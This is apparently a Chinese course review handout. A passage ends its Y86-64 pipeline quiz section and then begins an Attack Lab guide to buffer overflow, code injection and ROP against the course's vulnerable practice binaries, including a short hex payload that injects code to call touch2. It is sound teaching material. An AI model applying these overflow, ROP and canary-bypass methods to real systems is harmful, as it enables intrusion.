执行的指令是 irmovq、mrmovq、addq、jne、xorq、jne、halt，共 7 条（第一个 jne 跳过了 irmovq $1）。五级流水线的基础是 7 + 4 = 11 个周期。mrmovq 之后紧跟使用 %rax 的 addq，加载/使用冒险加 1；pipe_std 总是预测跳转，第一个 jne 跳转、预测正确，第二个 jne 不跳转、预测错误，加 2。共 11 + 1 + 2 = 14（实测）。B 只算了基础周期；C 漏了预测错误的代价；D 漏了加载/使用冒险。同一个程序在其他架构上的实测周期数是：pipe_s3a 13 个（没有转发，两处相关、两个 jne 各停 1），pipe_s3c 10 个（只有第二个 jne 预测错误，代价 1），pipe_s4b 13 个（加载/使用 1，预测错误 2），seq_std 7 个。
例 8（单选）在 pipe_std 加 iopq 的架构上，下面的 ncopy 主循环在稳定状态下处理一个非正数元素和一个正数元素，分别需要多少个周期？
A. 9 与 11 B. 8 与 11 C. 9 与 12 D. 8 与 9
Loop: mrmovq (%rdi), %r10
rmmovq %r10, (%rsi)
andq %r10, %r10
jle Npos
iaddq $1, %rax
Npos: iaddq $8, %rdi
iaddq $8, %rsi
iaddq $-1, %rdx
jg Loop答案
C
非正数执行 8 条指令（跳过 iaddq $1）。mrmovq 之后紧跟使用 %r10 的 rmmovq，加载/使用冒险停 1 个周期；jle、jg 都跳转，与“总是跳转”的预测一致。共 9 个周期。正数多执行一条 iaddq，jle 不跳转，预测错误付 2 个周期，共 12 个。实测：全为负数的数组每加长一个元素多 9 个周期，全为正数时多 12 个。B 漏了加载/使用冒险；A 把预测错误的代价算成了 1（那是 s3c、s4a 的代价）；D 认为正数只多一条指令，漏了预测错误。
例 9（单选）有人把 8 路展开中每组的读写顺序改成“读一个、写一个、读一个、写一个”，即每条 rmmovq 紧跟在它所用的 mrmovq 之后。在 pipe_std 上，全为负数的数组每个元素的周期数会怎样变化？
A. 从 4.5 变为 6.5 B. 不变，仍为 4.5 C. 从 4.5 变为 3.5 D. 从 4.5 变为 5.5
答案
D
每条 rmmovq 都紧跟着它所用的 mrmovq，形成加载/使用冒险，每个元素多停 1 个周期（实测从 4.5 变为 5.5）。原来的顺序让两次读和两次写交错，读出的值到使用时已经隔了一条指令，可以由 m_valM 转发，不必暂停。B 以为改变顺序不影响周期；C 方向反了；A 把每个元素的暂停算成了 2 个周期。这道题和 2025 年真题的思路相同：在流水线上，同样的指令换一个顺序，性能就可能不同。
5.4 关键路径与 Part C 的评分#
例 10（单选）在 pipe_std 中，把纠正预测错误的那一行改成用 E 级当周期算出的 e_cnd（E.icode == JX && !e_cnd : E.valA，控制逻辑相应调整）。ac 和预测错误的代价会怎样变化？
A. ac 不变，预测错误的代价从 2 降为 1
B. ac 从 4 变为 6，预测错误的代价从 2 降为 1
C. ac 从 4 变为 3，预测错误的代价不变
D. ac 从 4 变为 6，预测错误的代价从 2 升为 3
答案
B
cond 的输出又连回了取指的 imem，最长路径恢复为 alu → reg_cc → cond → imem → ialign，ac = 6（用 ysim -I 核对：cond 在第 4 层，imem 在第 5 层，ialign 在第 6 层）。另一方面，预测错误在 E 级当周期就被纠正，只需取消 1 条指令，代价从 2 降为 1，与 s3c、s4a 相同。A 没有看到新增的长路径；C 方向反了；D 把代价的变化也弄反了。这就是第 3.8 节说的权衡：缩短 ac 往往要多付周期，反过来也一样。
例 11（单选）关于 Part C 的评分（c = cpe + 2 × ac）与优化策略，正确的一项是：
A. cpe 与 ac 相互独立，优化一个不会影响另一个
B. cpe 只取决于 ncopy.ys，与架构无关
C. 给流水线增加级数可能降低 ac，但冒险的代价会增加，cpe 可能随之上升
D. cpe 是所有测试的总周期数除以元素总数
答案
C
级数越多，组合逻辑被切得越短，ac 可能下降；但相关、预测错误、ret 的代价都会增加，同样的程序要多花周期，cpe 上升。两者的此消彼长正是 Part C 要权衡的东西（第 4.6 节）。B、A 都不对：同一份 ncopy.ys 在不同的架构上周期数不同，例 7、例 10 就是例子，所以 cpe 依赖于架构，也就不可能与 ac 完全独立。D 不对：cpe 是 64 个长度上“周期数 ÷ 长度”的算术平均，短数组的权重很大，len = 1 的固定开销对 cpe 的影响是 len = 64 的 64 倍。
第六部分 速查与自测#
6.1 一页纸速查#
表 18 八个架构的关键信号与代价
| 架构 | 关键信号 | 冒险代价（周期） | ac |
|---|---|---|---|
| s2 | f_pc 用本周期 D 级的 cnd、valM | 全部为 0 | 7 |
| s3a | f_pc 中 jXX、ret 读 E 级；data_harzard（含 != RNONE）；f_stall = D.icode in {JX,RET} || d_stall；d_bubble = ... && !d_stall | 相关 1，跳转 1，ret 1 | 6 |
| s3b | d_valA：e_valM 先于 e_valE；e_dstE 考虑 cmov 条件 | 跳转 1，ret 1 | 6 |
| s3c/d | f_pred_pc；f_pc 中预测错误先于 D 级 call；ret_harzard && !branch_mispred | 预测错误 1，ret 1 | 6 |
| s4a | 转发 e_valE 先于 m_valM；load_use_harzard；RET in {D.icode, E.icode}；M.icode == RET : m_valM | 加载/使用 1，预测错误 1，ret 2 | 6 |
| s4b | M.icode == JX && !M.cnd : M.valP（模板的 !e_cnd 要改）；branch_mispred 仍在 E 级；d_bubble = mispred || ret && !s | 加载/使用 1，预测错误 2，ret 2 | 4 |
| s4c | D.icode in {CALL,JX} : D.valP 并入 valA；mem_data = M.valA | 同 s4b | 4 |
| std | ret 用 W.valM；call 由 f_pred_pc 处理 | 加载/使用 1，预测错误 2，ret 3 | 4 |
表 19 Part C 速查
| 项目 | 要点 |
|---|---|
| 评分 | c = cpe + 2 × ac；c ≤ 15 得 60 分，16 < c ≤ 19 得 19 × (19 − c) 分 |
| cpe | 64 个长度上“周期 ÷ 长度”的算术平均，短数组权重大 |
| iaddq | 合并“irmovq + OPq”，并且自己设置条件码 |
| 展开 | 8 路，两组寄存器交替，加载与使用隔一条指令；非正数每个 4.5 周期，正数 7.5 周期 |
| 余数 | 4/2/1 阶梯，每块判断一次；处理完一块后 %rdx 恰好是剩余个数 |
| 无效的尝试 | 反转跳转方向、条件传送计数：每个元素一律 10 周期，正数约占一半时不如原写法（8 + 3·[正]） |
| 降 ac | 用 ysim -I 找出最长路径；E 级寄存器加 cc 字段，cond 读 E.cc；s4c 还有 dmem → imem → ialign，只有 pipe_std 能从 4 降到 3 |
6.2 易错点#
第一，ALU 的两个输入有方向：ALU 算 b op a，iopq 的立即数要从 A 口进入，否则 isubq 的结果符号相反（第 3.1 节）。第二，比较 RNONE：数据冒险的判断要排除 d_src 为 RNONE 的情形（第 3.4 节）。第三，转发要配对、要选最新的：e_valE 配 e_dstE；同一寄存器有多个来源时，选流水线中较新的那条指令（第 3.5、3.7 节）。第四，纠正优先于 D 级的 call：s3c、s4a 中预测错误的情形要排在 D.icode == CALL 之前（第 3.6 节）。第五，暂停优先于气泡：d_bubble 要排除 d_stall，注意 && 比 || 先结合（第 3.8 节）。第六，ac 看所有并列最长的路径：只切断一条，ac 不会变（第 4.6 节）。第七，cpe 是平均值的平均：len = 1 的开销对 cpe 的影响是 len = 64 的 64 倍（第 4.1 节）。第八，bubble.ys 的数组标号用小写 array（第 1.1 节）。第九，s4b、s4c 模板 f_pc 中的 `!e_cnd` 是笔误，要改成 !M.cnd（第 3.8 节）。
6.3 自测题#
以下都是单选题，答案和逐项分析在后面。
1．ixorq $-1, %r10 的机器码是：
A. c3 fa ff ff ff ff ff ff ff ff
B. c3 af ff ff ff ff ff ff ff ff
C. c2 fa ff ff ff ff ff ff ff ff
D. c3 fa ff ff ff ff 00 00 00 00
2．seq_full 加入 iopq 之后，ac 是：
A. 变为 9，因为多了一条从 ialign 到 alu 的路径
B. 仍是 8，iopq 没有在任何路径上增加新的部件
C. 变为 7，因为 iopq 不访存
D. 取决于 iopq 的 ifun
3．mrmovq 后面紧跟使用其结果的指令。关于 pipe_s3b 与 pipe_s4a，正确的一项是：
A. s3b 需要暂停，s4a 不需要
B. 两者都不需要暂停
C. 两者都需要暂停 1 个周期
D. s3b 的访存在 E 级，读出的 e_valM 当周期就能转发，不需要暂停；s4a 的访存移到 M 级，必须暂停 1 个周期
4．把 pipe_s3c 的预测改成“总是不跳转”，并相应修改 f_pc。条件跳转的代价变成：
A. 不论跳不跳都是 1 个周期
B. 实际跳转时 0，不跳转时 1 个周期
C. 实际跳转时 1 个周期，不跳转时 0
D. 不论跳不跳都是 0
5．程序 irmovq $0x100, %rsp; call f; halt; f: ret 在 pipe_std 上需要多少个周期？
A. 11 B. 8 C. 9 D. 10
6．本 Lab 的 pipe_std 删去来自 W 级的两条转发后，仍能通过全部测试。原因是：
A. 测试程序中恰好没有相隔三条指令的数据相关
B. W 级的指令不会写寄存器
C. 本 Lab 的 reg_file 在同一周期内先写后读，W 级本周期写入的值 D 级本周期就能读到
D. W 级的值总是由 M 级转发
7．某个 ncopy 的 cpe 为 9.20，在 ac = 4 的架构上得多少分？
A. 34.2 B. 57 C. 60 D. 0
8．最终版本的主循环在进入之前先执行 iaddq $-8, %rdx，循环条件用 jge。如果改成进入之前不减、在循环末尾 iaddq $-8, %rdx; jg Loop8，会出现什么问题？
A. 只会让周期数增加，结果仍然正确
B. 没有问题，两种写法等价
C. len 恰好为 8 时会少处理 8 个元素
D. len 不足 8 时也会进入主循环，读写数组之外的内存
9．8 路展开中计数用“jle 跳过 iaddq $1, %rax”，而不是“jg 跳到一段计数代码，再跳回来”。设正数的比例为 p，在 pipe_std 上前一种写法更省周期的条件是：
A. p > 2/3 B. p < 2/3 C. p < 1/2 D. 不论 p 是多少，两种写法一样
自测题答案#
1．A。ixorq 是 iopq 的一种，指令码 C、功能码 3（xor）；寄存器字节 rA 为 F、rB 为 %r10（编号 A）；–1 的 8 字节补码全为 ff（yas 核对）。B 把 rA、rB 写反了；C 的功能码 2 是 iandq；D 只写了 4 字节的常数，Y86-64 的常数字段是 8 字节。
2．B。iopq 的数据通路与 OPq、irmovq 相同：立即数经 ialign 送到 ALU，rB 的值经 reg_read 送到 ALU，结果经 reg_write 写回，没有在任何路径上增加部件。最长路径仍是 imem → ialign → reg_read → alu → reg_cc → cond → reg_write。A 说的那条路径是 irmovq 原本就有的；C、D 都与 ac 无关。
3．D。s3b 中访存与 ALU 都在 E 级，mrmovq 读出的 e_valM 当周期就能转发给 D 级。s4a 把访存分离到 M 级：mrmovq 在 E 级时还没有读内存，D 级的指令拿不到值，只能等一个周期，等 mrmovq 到了 M 级再转发 m_valM。B、C、A 都与这一区别不符。
4．C。预测不跳转时，F.pred_pc 总是顺序地址；到 E 级发现实际要跳转，就改取 E.valC，取消已经取进来的 1 条指令，所以实际跳转时付 1 个周期、不跳转时不付。B 正是原来“总是跳转”预测下的代价；A、D 都不对。注意无条件的 jmp 也会被当成预测错误，所以 f_pred_pc 最好对 jmp 仍取 f_valC。
5．A。执行 4 条指令（irmovq、call、ret、halt），五级流水线的基础是 4 + 4 = 8 个周期；pipe_std 中 ret 要等返回地址到 W 级，代价 3，共 11（实测）。B 只算了基础；C 是 pipe_s4b 的结果（基础 7，ret 代价 2）；D 把 ret 的代价算成了 2。
6．C。第 3.6 节说明，本 Lab 的 reg_file 在同一周期内先写后读，所以不需要从 W 级转发；教材的寄存器文件在时钟上升沿才写入，W 级的值在本周期还没有进入寄存器文件，必须转发。B 不对，W 级正是写回寄存器的阶段。A 把“没有测出来”当成了原因。D 不对，W 级的值在 M 级之后，不可能由 M 级转发。
7．A。c = 9.20 + 2 × 4 = 17.20，落在 16 < c ≤ 19 之间，得 19 × (19 – 17.20) = 34.2 分。B 是 15 < c ≤ 16 时的分数，ac = 3 时 c = 15.20，才得 57 分；C 要求 c ≤ 15；D 是 c > 19 的情形。（第 4 部分的表中 34.13 是用 cpe 的精确值 9.2036 算出的。）
8．D。先减 8 再判断，相当于在进入之前检查“是否至少有 8 个元素”；改成循环末尾再减，len 不足 8 时也会先执行一遍主循环，读写数组之外的内存。B、A 都忽略了越界；C 不对，len 为 8 时两种写法都处理这 8 个元素，问题出在 len < 8。
9．B。pipe_std 总是预测跳转。现在的写法：非正数时 jle 跳转，预测正确，不付代价；正数时预测错误，付 2 个周期，另外多执行 1 条 iaddq，每个正数多 3 个周期，平均 3p。另一种写法：正数时 jg 跳转、预测正确，但多执行 iaddq 和跳回来的 jmp 两条指令；非正数时 jg 不跳转、预测错误，付 2 个周期；不论正负都多 2 个周期。3p < 2 即 p < 2/3 时现在的写法更省，grader 的数据中 p 约为 0.5。
—— Arch Lab 讲义完 ——
计算机系统导论（ICS）
复习讲义 · Lab 专题
Attack Lab：从读汇编到构造字节流（Buffer Overflow & ROP）
如何使用本讲义#
Bomb Lab 训练的是“把别人的汇编读成 C”，Attack Lab 则要求把方向反过来：读懂漏洞函数和防护机制之后，自己排出一串字节，让程序在返回时跳到我们指定的位置、带着我们指定的参数执行。六个 Phase 表面上各不相同，实际只围绕三件事：栈帧与 %rsp 的变化、8 字节槽与小端序、用 ret 接力的控制流。把这三点练成条件反射，测验中的偏移计算、机器码转写和 ROP 链排布都会变成同一套流程。
先约定几个术语，后文不再重复解释。送进目标程序的字节序列称为攻击串（Payload）；以 ret 结尾、可以拼接进 ROP 链的短指令序列称为代码片段（Gadget）；用 Gadget 链控制执行流的做法称为返回导向编程（ROP，Return-Oriented Programming）；让栈所在内存页不可执行的技术称为 NX（No-eXecute）；让栈、库等地址随机化的技术称为地址空间随机化（ASLR）；在栈上放一个返回前校验的哨兵值的技术称为栈金丝雀（Canary）。
本讲义先用第 0 部分讲上手与测评，正文分六部分。第一部分说明三个目标程序的防护差异、hex2raw 的输入管道、objdump 与 gdb 的用法，以及 -q 与提交规则。第二部分给出五个通用工具：无界写入的根源、ret 的指令级含义、getbuf 的栈账本、数值与字符串的字节序准则、栈帧复用的踩踏问题。第三部分按 Phase 1–6 逐关展开，并在 3.7 节给出六关对照与通用流程。第四部分讨论缓冲区大小、Cookie、农场指令变化下的重算方法，以及栈对齐和现代防护。第五部分按 Lab 测验的题型给单选例题，最后是一道综合题。第六部分是速查表、十条易错点、九道单选自测题与术语对照。
讲义中的所有地址、偏移和机器码都从本实例的二进制重新导出；六个 Payload 在 QEMU 模拟的 x86-64 Linux 上用 -q 参数实际运行，输出 PASS。为了让目录保持在一页以内，第四至六部分的小节标题比前三部分低一级（不进入目录），正文中仍按 x.y 编号。
表 1 本讲义的内容地图
| 部分 | 内容 | 小节 |
|---|---|---|
| 上手与测评 | 环境、材料、输入生成与验证、起步路线、构造习惯与排错 | 0.1–0.6 |
| 规则与工具 | 三个目标程序、hex2raw、objdump/gdb、-q 与评分 | 1.1–1.4 |
| 方法工具箱 | Gets 漏洞、ret 的本质、栈账本、字节序、栈帧复用 | 2.1–2.5 |
| 逐关详解 | Phase 1–6 的题意、汇编、C 语义、Payload 表、验证与陷阱 | 3.1–3.8 |
| 常见变体 | 缓冲区大小、Cookie、农场变化、栈对齐与防护演进 | 4.1–4.4 |
| 测验题型 | 单选：偏移、机器码、Gadget 与 ROP 链、字符串、防护、工具用法、综合 | 5.1–5.7 |
| 速查与自测 | 速查表、易错点、自测题与答案、术语、地址附录 | 6.1–6.6 |
0 上手与测评#
Bomb Lab 练的是“把别人的汇编读成 C”，Attack Lab 则把方向反过来：读懂漏洞函数和防护机制之后，自己排出一串输入字节（即常说的 Payload / 攻击串，按栈槽布局送入 Gets），让程序在返回时跳到我们指定的位置、带着我们指定的参数执行。六个 Phase 表面上各不相同，核心只围绕三件事：栈帧与 %rsp 的变化、8 字节槽与小端序、用 ret 接力的控制流。但真正上手时，很多时间并不是卡在原理上，而是栽在题目之外的细节里：三个 target 的地址混用、字节流里误入 0x0a 被 Gets 提前截断、改了 .txt 忘了重新 hex2raw、跑错终端目录，或者在 ret 还没执行时就去检查参数寄存器。这一部分先把环境、输入生成与验证、各 Phase 起步路线、构造习惯和常见报错理顺；具体汇编与逐关推导见第二、三部分。
0.1 环境与材料#
ctarget、rtarget、starget 和 hex2raw 都是 x86-64 Linux 的 ELF 可执行文件，在 Apple Silicon 的 Mac 上直接运行会报“Exec format error”。可行的环境是课程的 xLab 容器，或者在本机用 x86-64 Linux 容器、QEMU 用户态环境运行。在 Autolab 下载自己的 target456.tar，用 Linux 的 tar xvf 解开；不要在 Windows 下解压，否则可能丢失可执行权限。如果从别处复制后遇到“Permission denied”，先执行 chmod +x ctarget rtarget starget hex2raw。同一组 target 解压一次即可，不要把不同来源的二进制混在一起。
表 2 Attack Lab 的材料与用途
| 文件或目录 | 用途 | 使用要点 |
|---|---|---|
| attacklab.pdf | 官方实验说明（15 页） | 先读三个 Part 的规则、hex2raw 的用法和农场 Gadget 限制 |
| ctarget | 代码注入目标 | Phase 1–3；本实例的栈页可执行，栈地址稳定 |
| rtarget | ROP 目标 | Phase 4–5；NX 和 ASLR 开启，只能跳到农场里的代码地址 |
| starget | Canary 目标 | Phase 6；getbuf_withcanary 有金丝雀和 len 覆盖缺陷 |
| farm.c | 农场 Gadget 的来源 | 只用来查指令和偏移，不能修改目标程序 |
| hex2raw | 十六进制文本转字节流 | ./hex2raw < phase1.txt > phase1.raw；注释用 C 风格 |
| cookie.txt | 本实例的 cookie | Phase 2、4 需要把 cookie 放进 %rdi |
三个 target 里同名函数的地址各不相同（例如本实例中 touch2 在 ctarget 里是 0x401cdc，在 rtarget 里是 0x401c6a，在 starget 里是 0x401c71；starget 的农场地址整体比 rtarget 大 7 字节）。把 ctarget 的返回地址抄到 rtarget、把 rtarget 的 Gadget 地址直接搬到 starget，是上手阶段最常见的错误。每换一个 target，先重新生成反汇编，不要沿用上一个程序的符号表。
本地调试与验证一律加 -q，它只在本机校验、不向课程服务器发送记录。虽然 Attack Lab 失败不扣分，也不要把带 -q 的本地测试当成正式提交，或为了“看看分数”去掉 -q 盲跑。容器偶尔会出状况，反汇编 .s、分析笔记、.txt 文本和 .raw 文件都应当在本机也保留一份。
0.2 生成输入、运行与验证#
Attack Lab 的工作节奏很固定：写十六进制文本 -> hex2raw 转换 -> 检查 .raw 字节数与结尾 -> 带 -q 运行或在 gdb 中检查。动手前先把三个目标程序反汇编备用：
tar xvf target456.tar
objdump -d ctarget > ctarget.s
objdump -d rtarget > rtarget.s
objdump -d starget > starget.s
./hex2raw < phase1.txt > phase1.raw # 十六进制文本转为字节流
wc -c phase1.raw # 核对总字节数（有效串 + 末尾 0a）
xxd phase1.raw | tail -2 # 确认末尾只有一个 0a
./ctarget -q -i phase1.raw # 本地验证，通过会打印 PASS
./rtarget -q -i phase4.raw
./starget -q -i phase6.rawhex2raw 接受以空白分隔的两位十六进制字节，支持 C 风格注释（/* ... */），并在输出末尾自动补一个换行 0x0a。因此 .raw 文件长度总是“有效攻击串长度 + 1”。Gets 读到第一个 0x0a 就会停止并补 0x00，所以有效攻击串内部绝不能出现 `0x0a`，只有末尾那个 0x0a 是合法的输入终止符。如果文本里混入了全角空格、缺了空格或字节位数不对，hex2raw 会报错或生成错位的字节数；每次改完 .txt 都必须重新跑一次 hex2raw，否则目标程序读到的还是旧 .raw。
做 Phase 2、3 需要把汇编转成机器码，不必手查指令编码表：把几条指令写进一个临时 .s 文件，用 gcc -c（或 as）汇编后 objdump -d 就能直接抄出字节序列（第 1.3 节）。
验证时不能只凭“看起来没崩”或只看最终输出就猜哪里错，必须在 gdb 里盯住三个检查点：（1）getbuf 的 ret 之前，用 x/4gx $rsp 看返回地址槽是否已经写成目标地址；（2）注入代码或第一条 Gadget 入口，确认机器码或指令解码符合预期；（3）touch1/2/3 入口，用 p/x $rdi 或 x/s $rdi 确认参数寄存器和字符串内容。注意 %rsp 的绝对地址随运行环境变化，讲义示例中的 buf 地址不能直接抄到另一台机器上——偏移是稳定的，绝对地址要在自己的 `gdb` 里现场读。
0.3 按 Phase 的起步路线#
从 buf 起点开始，把栈按每 8 字节画成一个槽，返回地址永远占一个完整槽。先画出这张布局图，再确定“要跳到哪个地址、参数放哪个寄存器、字符串放在哪一槽”，最后往每一槽填字节。下表只给起点和常见卡点，完整地址与 Payload 表见第三部分。
表 3 Attack Lab 各 Phase 的起步路线
| Phase | 程序与目标 | 第一个动作 | 常见卡点与对应小节 |
|---|---|---|---|
| 1 | ctarget -> touch1 | 反汇编 getbuf，查 sub 的字节数与 buf 形成方式；在 ret 前用 gdb 看 %rsp 和返回地址槽 | 偏移按实际地址差算，返回地址本身占 8 字节；地址按 8 字节小端写满，漏写或写成 0 会跳错。见 3.1 |
| 2 | ctarget -> touch2(cookie) | 先算注入代码的字节数，再把返回地址指向 buf；确认栈页可执行 | 代码与填充要凑满到返回地址槽；movq 的 imm32 是符号扩展；进入 touch2 前注意 16 字节栈对齐。见 3.2 |
| 3 | ctarget -> touch3("cookie") | 把 cookie 字符串放到高地址，%rdi 放它的地址；确认不会被后续栈帧覆盖 | 字符串按 ASCII 正序写 + 00，不要按整数小端写；hexmatch 的栈帧会向下踩掉低地址内容；别跳成 hexmatch。见 3.3 |
| 4 | rtarget -> touch2(cookie) | 在 rtarget 农场里找 pop %rax; ret 和 mov %rax,%rdi; ret；用 x/5i 核对解码 | 必须跑 rtarget；每槽 8 字节，地址与数据交替；填充别写少；Gadget 要看完整解码和副作用。见 3.4 |
| 5 | rtarget -> touch3(指针) | 先找 mov %rsp,%rax 和 add_xy，在纸上标出第一条 Gadget 执行时的 %rsp | 第一条 Gadget 执行时 %rsp 已经是 B+32，不是 B+24；偏移基准错 8，指针会落到字符串后面；字符串放链之后。见 3.5 |
| 6 | starget -> touch3 | 反汇编 getbuf_withcanary，先定位 len、Canary 和返回地址，再算 len | 取 len = 0x128 = 296，memcpy 的目标才是返回地址；ROP 链与字符串必须完整塞进前 128 字节；农场地址比 rtarget 大 7。见 3.6 |
0.4 构造与调试的几个习惯#
第一，先画栈账本，再填字节。动笔写 .txt 前，先把 buf 起点、返回地址槽和 ret 弹出后的 %rsp 标在草稿纸上；所有地址槽与 ROP 槽一律写满 8 字节小端，不要依赖原槽高 4 字节恰好为 0 的巧合。
第二，分清数值与字符串。同一份 Cookie，给 touch2 传的是 4 字节整数（按小端拆进 8 字节槽，高 4 字节补 0），给 touch3 传的是 8 个 ASCII 字符正序排列再加末尾 00（共 9 字节），两者的写法完全相反。
第三，盯住断点时机，不跨步瞎猜。想看参数寄存器 %rdi，要在注入代码或 ROP 链执行完、停在 touch2/touch3 入口之后看；停在 getbuf 的 ret 处时参数还没装入。遇到崩溃先看停在哪里：崩在 getbuf 的 ret 多半是偏移或小端写错；崩在 libc（如 movaps）通常提示栈没有按 16 字节对齐（普通函数刚入口时应满足 %rsp % 16 = 8）。
第四，用好 C 风格注释。在 .txt 里把每个 8 字节槽的用途、偏移和对应地址用 /* ... */ 标清楚，尤其在做 Phase 5、6 的长链时，查错和核对偏移能省一半时间。
第五，卡住就缩小实验，现象反常先查现场。长链调不通时，先缩成最短目标（例如先只跳到 touch1，确认偏移或 len 已经生效），再逐段加长，比对着整条链反复试快得多。如果遇到“改了文本却没变化”“len 读出莫名数值”或“什么都没改却突然通过”，先别怀疑原理，立刻做三件事：pwd 确认终端目录、wc -c 与 xxd 确认 .raw 已重新生成、核对运行的是不是对应的 target。
0.5 常见报错与原因#
失败通常落在这几类：环境不匹配、没有覆盖到返回地址、跳到了错误地址、栈未对齐或触发了 Canary。遇到报错先对照现象定位，再回去核对对应关卡的栈布局。
表 4 Attack Lab 的报错现象与原因
| 输出 / 现象 | 可能原因 | 怎么查、怎么改 |
|---|---|---|
| Exec format error 或 Permission denied | 在 ARM Mac 上运行 x86-64 程序，或解压丢了执行权限 | 换到 Linux 容器 / QEMU；chmod +x ctarget rtarget starget hex2raw |
| hex2raw 报错或生成字节数不对 | 文本中混入全角字符、缺空格或十六进制位数不对 | 检查 .txt 格式，确保每字节两位十六进制、用空白分隔 |
| No exploit. Getbuf returned 0x1 | 没有覆盖到返回地址：偏移算错、串内含 0x0a 被截断、用了旧 .raw | 用 wc -c / xxd 检查 .raw；在 gdb 的 ret 前看返回地址槽 |
| 段错误，崩在 getbuf 的 ret | 返回地址槽内容错：小端写反、偏移差 8、槽只写了 4 字节 | 重新画栈布局；确认每个槽 8 字节，地址按小端写 |
| 段错误，崩在 libc（如 movaps） | 栈没有按 16 字节对齐（入口 %rsp % 16 不为 8） | 逐槽核对栈账，调整链长度使进入目标函数时余 8 |
| 段错误，崩在 memcpy 或很远的地址 | 长度或偏移是垃圾值，例如 len 读错，或复用了旧 .raw / 另一个终端目录 | 检查 Phase 6 的 len 位置和 4 字节小端写法；先做 pwd、wc -c、xxd 核对现场 |
| Misfire + 一大段乱码 | %rdi 偏大，通常是偏移基准点算错 | Phase 5 从第一条 Gadget 执行时的 %rsp 起算，不要从 buf 起算 |
| Misfire + 空字符串 | %rdi 落在 00 字节上，或字符串被后续调用栈帧踩掉 | 把字符串放到链之后的高地址，确认不被 hexmatch 覆盖 |
| Ouch!: You change the canary value! | 溢出写到了 Canary 附近 | Phase 6 用 len 借 memcpy 搬家，不要直接越过 Canary |
| 本地通过，提交后失败 | 忘了去掉 -q、用旧 .raw，或把本地验证当成正式提交 | 提交前确认去掉 -q、核对 .raw 长度与目标程序 |
0.6 提交前检查#
提交前把每一关的 .txt 和 .raw 都保存好，改过文本务必重新跑 hex2raw，并用 wc -c 核对长度、xxd 确认末尾只有一个 0a 且中间不含 0a。每关都要在对应的 target（ctarget / rtarget / starget）上带 -q 复跑一遍确认输出 PASS，不要把不同 target 的 Payload 混用；最后按课程要求去掉 -q 正式提交，不要把本地 -q 验证当成已上报。换机器或换环境后，偏移和槽布局可以复用，但 buf 等栈绝对地址必须在新的 gdb 中重新读取。
第一部分 规则、工具与运行机制#
1.1 三个目标程序与六关的分值#
Attack Lab 提供三个可执行文件，漏洞入口和防护逐级加强。ctarget 只用于代码注入（Part I）：本实例的 getbuf 所在的栈页可执行，栈位置稳定，入口没有金丝雀；rtarget 用于返回导向编程（Part II）：栈不可执行（NX）、栈地址随机化（ASLR）开启，getbuf 入口没有金丝雀；starget 在 rtarget 的基础上给 getbuf_withcanary 加了栈金丝雀，但这个函数有一个“局部变量写在缓冲区上方”的缺陷，仍然可以完成 ROP。
表 5 三个目标程序中漏洞入口的防护与突破口
| 程序 | 漏洞入口 | NX（本实例） | 栈地址随机化 | 入口 Canary | 攻击方式 |
|---|---|---|---|---|---|
| ctarget | getbuf | 关闭（栈可执行） | 本实例稳定 | 无 | 注入机器码（Phase 1–3） |
| rtarget | getbuf | 开启 | 开启 | 无 | 用农场 Gadget 拼 ROP（Phase 4–5） |
| starget | getbuf_withcanary | 开启 | 开启 | 有 | 覆盖 len、借 memcpy 搬家后 ROP（Phase 6） |
这张表限定的是“本实例的漏洞入口”，不是对整个程序的所有函数下结论。ctarget 和 rtarget 中的 hexmatch 等函数实际带栈保护，只是本实验的 getbuf 入口没有加 Canary；不要把它们写成“程序完全没有金丝雀”。同理，本实例三个二进制都是非 PIE 的代码布局，函数地址固定；换成 PIE 或换了实例，地址与栈位置都要重新核对。
六个 Phase 的分值如下。Phase 1 只改返回地址，10 分；Phase 2 注入代码调用 touch2(cookie)，25 分；Phase 3 注入代码调用 touch3("cookie")，25 分；Phase 4 在 rtarget 上用 ROP 重做 Phase 2，35 分；Phase 5 在 rtarget 上用 ROP 重做 Phase 3，5 分；Phase 6 在 starget 上绕过 Canary 完成 Phase 3，5 分，属于额外加分。前五关合计 100 分，第六关是 105 分制的加分项。
表 6 六关的程序、方法与分值
| Phase | 程序 | 方法 | 目标函数 | 分值 | 关键难点 |
|---|---|---|---|---|---|
| 1 | ctarget | 代码注入 | touch1() | 10 | 计算返回地址偏移 |
| 2 | ctarget | 代码注入 | touch2(cookie) | 25 | 注入代码并设置 %rdi |
| 3 | ctarget | 代码注入 | touch3("cookie") | 25 | 字符串指针与栈帧踩踏 |
| 4 | rtarget | ROP | touch2(cookie) | 35 | 农场 Gadget 与栈槽排布 |
| 5 | rtarget | ROP | touch3(指针) | 5 | 动态计算字符串地址 |
| 6 | starget | ROP + Canary | touch3(指针) | 5* | 覆盖 len、借 memcpy 绕过检查 |
课程对返回地址的落点有硬性限制：攻击串里交给 ret 的地址，只能是 touch1/touch2/touch3 的入口、自己注入代码的入口，或 start_farm 到 end_farm 之间的 Gadget。不能跳到程序的其他位置“抄近路”，也不能修改二进制的校验逻辑。Gadget 是否合法还要看它从该地址起的完整解码、使用的指令和寄存器、以及对内存与标志位的副作用；start_farm 到 mid_farm 是 handout 对 Phase 4 给出的可用范围提示，不是可以脱离解码检查的万能通行证。
1.2 hex2raw：从十六进制文本到攻击字节流#
hex2raw 把“每字节两位十六进制、用空白分隔”的文本转换成真正的字节流。它可以带 C 风格注释，方便标注每一段的用途。文本里写 48 c7 c7 4a 75 cc 61，转换后就是 7 个字节 0x48、0xc7、0xc7、0x4a、0x75、0xcc、0x61。命令形式是 ./hex2raw < exploit.txt > exploit.raw，再把 exploit.raw 用 -i 交给目标程序。
/* phase 2：把 cookie 放进 %rdi，再 ret 到 touch2 */
48 c7 c7 4a 75 cc 61 /* movq $0x61cc754a,%rdi */
68 dc 1c 40 00 /* pushq $0x401cdc */
c3 /* retq */要分清三层东西。十六进制文本只是分隔符的载体：空格和换行都只用于分隔，00 转换成一个零字节，文本里的换行不会进入字节流。转换后的原始字节由 hex2raw 生成并保存为 .raw 文件。Gets 实际读到的有效攻击串则是从原始字节流中读到第一个 0x0a 为止，把之前的字节写进 buf，再补一个 0x00；末尾换行是输入终止符，不属于有效攻击串。因此有效攻击串内部不能出现 0x0a，末尾的换行是合法的；本材料六个 .raw 文件都比有效攻击串多一个末尾换行。
表 7 宽度、用途与字节写法（不要把所有东西都当 8 字节）
| 对象 | 宽度 | 字节写法 | 例子 |
|---|---|---|---|
| 返回地址 / ROP 地址槽 | 8 字节 | 8 字节小端，低位在前 | 0x401ca8 → a8 1c 40 00 00 00 00 00 |
